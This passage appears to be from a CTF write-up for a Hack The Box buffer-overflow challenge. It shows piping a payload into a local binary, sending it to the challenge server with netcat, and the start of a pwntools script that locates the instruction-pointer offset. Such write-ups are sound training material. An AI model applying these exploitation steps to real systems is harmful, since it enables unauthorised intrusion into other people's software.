 Create a test flag:

```
echo "HERE_IS_YOUR_FLAG!!!!" > flag.txt
```

Exploit:

```
cat payload | ./vuln
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can also send it to the remote server hosting the binary on HTB's infrastructure via:

```
cat payload - | nc <IP_HERE> <PORT_HERE>
```

We need a `-` so we send payload to STDIN after our pipe.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Automated Exploitation

`exploit.py`:

```python
from pwn import *


def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.pc)  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './vuln'
```